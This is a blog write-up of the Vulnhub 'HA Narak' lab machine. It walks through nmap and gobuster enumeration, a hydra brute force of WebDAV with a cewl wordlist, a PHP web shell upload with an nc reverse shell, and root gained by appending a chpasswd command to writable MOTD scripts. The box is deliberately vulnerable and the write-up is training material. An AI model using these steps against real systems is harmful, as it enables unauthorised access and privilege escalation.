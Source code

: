 ```yaml
---
title: Vulnhub - HA Narak
description: My writeup on HA Narak box.
categories:
 - vulnhub
tags: vulnhub webdav cewl hydra motd brainfuck
---
```


![](https://truthstar-tgt5cps4e32fytbrgae.netdna-ssl.com/wp-content/uploads/2015/11/Narak-Chaturdashi.jpg)

You can find the machine there > [HA Narak](https://www.vulnhub.com/entry/ha-narak,569/){:target="_blank"}

## Summary

This was a pretty interesting box, we start off by generating a wordlist using cewl and then brute force webdav this will us shell as www-data. We find a bash script with brainfuck langauge in it we decode it and we get inferno password. Privesc to root is MOTD exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:4D:75 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:59:2d:22:1e:b3:6b:4f:06:bf:83:e1:cc:92:43 (RSA)
|   256 f8:ec:45:84:7f:29:33:b2:8d:fc:7d:07:28:93:31:b0 (ECDSA)
|_  256 d0:94:36:96:04:80:33:10:40:68:32:21:cb:ae:68:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: NARAK
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/images (Status: 301)
/index.html (Status: 200)
/tips.txt (Status: 200)
/webdav (Status: 401)
/server-status (Status: 403)
```

`/tips.txt` says this message: `Hint to open the door of narak can be found in creds.txt.` probably this will be useful later on privesc because now there is no `creds.txt`

`/webdav` asks for creds:

![](https://i.imgur.com/5caa2BW.png)

Because i have experience with HA series their boxes require `cewl` lot of times, so let's generate a custom wordlist with `cewl` and do a brute force with hydra:

```
$ cewl http://$ip/ -w wordlist.txt
$ hydra -L wordlist.txt -P wordlist.txt $ip http-get /webdav

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 11:33:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 6724 login tries (l:82/p:82), ~421 tries per task
[DATA] attacking http-get://192.168.1.16:80/webdav
[80][http-get] host: 192.168.1.16   login: yamdoot   password: Swarg
```

## Shell as www-data

Perfect, a few words about the webdav. 

WebDAV is an extension of the HTTP protocol that allow users to upload,download files on the apache server. I always like to use `Cadaver` as WebDAV client. Let's login and upload our shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `192.168.1.16':
Username: yamdoot
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/> exit
Connection to `192.168.1.16' closed.
```

Let's execute it and get shell:

```
$ curl --digest --user 'yamdoot:Swarg' http://$ip/webdav/shell.php
```

```
$ nc -lvp 5555                                                  
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as inferno

Let's search now the for `creds.txt` file:

```
www-data@ubuntu:/$ find / -name "creds.txt" 2>/dev/null
/mnt/karma/creds.txt
```

If we base64 decoded we can see the creds we found before:

```
www-data@ubuntu:/$ base64 -d /mnt/karma/creds.txt
yamdoot:Swarg
```

If we move now to `/mnt` we can find a bash script with brainfuck language in:

```
www-data@ubuntu:/mnt$ cat hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

Brainfuck is an esoteric programming language, let's use this [decoder](https://www.splitbrain.org/_static/ook/){:target="_blank"} and we got a password! `chitragupt`
This password works with user `inferno` we can use SSH now to login in.

```
$ ssh inferno@$ip

inferno@ubuntu:~$ whoami;id
inferno
uid=1002(inferno) gid=1002(inferno) groups=1002(inferno)
```

## Shell as root

Under `.cache` folder i found a motd file, that's a hint for privesc:

```
inferno@ubuntu:~$ cd .cache/
inferno@ubuntu:~/.cache$ ls -la
total 8
drwx------ 2 inferno inferno 4096 Sep 29 01:59 .
drwxr-xr-x 3 inferno inferno 4096 Sep 29 01:59 ..
-rw-r--r-- 1 inferno inferno    0 Sep 29 01:59 motd.legal-displayed
```

If we go to `update-motd.d` directory we can see that all files are writable. So let's simply add a command that changes root password & login in again.

```
inferno@ubuntu:~/.cache$ cd /etc/update-motd.d/
inferno@ubuntu:/etc/update-motd.d$ ls -la
total 36
drwxrwxrwx  2 root root 4096 Sep 21 09:57 .
drwxr-xr-x 80 root root 4096 Sep 22 05:14 ..
-rwxrwxrwx  1 root root 1220 Apr  9  2018 00-header
-rwxrwxrwx  1 root root 1157 Apr  9  2018 10-help-text
-rwxrwxrwx  1 root root 4251 Apr  9  2018 50-motd-news
-rwxrwxrwx  1 root root  604 Mar 21  2018 80-esm
-rwxrwxrwx  1 root root 3017 Mar 21  2018 80-livepatch
-rwxrwxrwx  1 root root  299 May 18  2017 91-release-upgrade
```

```
inferno@ubuntu:/etc/update-motd.d$ echo "echo 'root:pwned' | sudo chpasswd" >> 00-header 
inferno@ubuntu:/etc/update-motd.d$ exit
logout
Connection to 192.168.1.16 closed.
$ ssh inferno@$ip

inferno@ubuntu:~$ su - root
Password: 
root@ubuntu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read that flags:

```
root@ubuntu:~# cat root.txt 
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████
                           
                                                                                    
Root Flag: {9440aee508b6215995219c58c8ba4b45}						

!! Congrats you have finished this task !!
							
Contact us here:					
								
Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/	
																
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						
__________________________________

root@ubuntu:~# cat /home/inferno/user.txt 
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

Awesome box! :smile:

